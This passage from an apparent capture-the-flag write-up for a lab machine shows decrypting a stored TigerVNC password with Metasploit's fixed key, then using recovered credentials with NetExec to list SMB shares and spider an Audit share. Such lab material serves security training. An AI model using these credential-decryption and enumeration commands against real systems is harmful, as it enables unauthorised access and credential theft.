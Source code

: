 <pre class="language-bash"><code class="lang-bash"><strong># decrypting the TigerVNC password
</strong><strong>msfconsole -q
</strong>msf6 > irb
>> fixedkey = "\x17\x52\x6b\x06\x23\x4e\x58\x07"
>> require 'rex/proto/rfb'
>> Rex::Proto::RFB::Cipher.decrypt ["6bcf2a4b6e5aca0f"].pack('H*'), fixedkey 
</code></pre>

<figure><img src="../../../.gitbook/assets/casc_vnc_decrypt.png" alt=""><figcaption><p>Figure 13: Decrypting the TigerVNC password.</p></figcaption></figure>

This user has `READ` access to the `Audit` share, and by spidering this share we see that it includes some interesting files, including an `Audit.db` file (Figure 14).

```bash
# check share access
nxc smb 10.10.10.182 -u s.smith -p s.smith_pass --shares
# spider the Audit share
nxc smb 10.10.10.182 -u s.smith -p s.smith_pass --spider Audit\$ --regex . --depth 1
```

<figure><img src="../../../.gitbook/assets/casc_audit_share.png" alt=""><figcaption><p>Figure 14: Enumerating s.smith's share access and spidering the Audit share.</p></figcaption></figure>
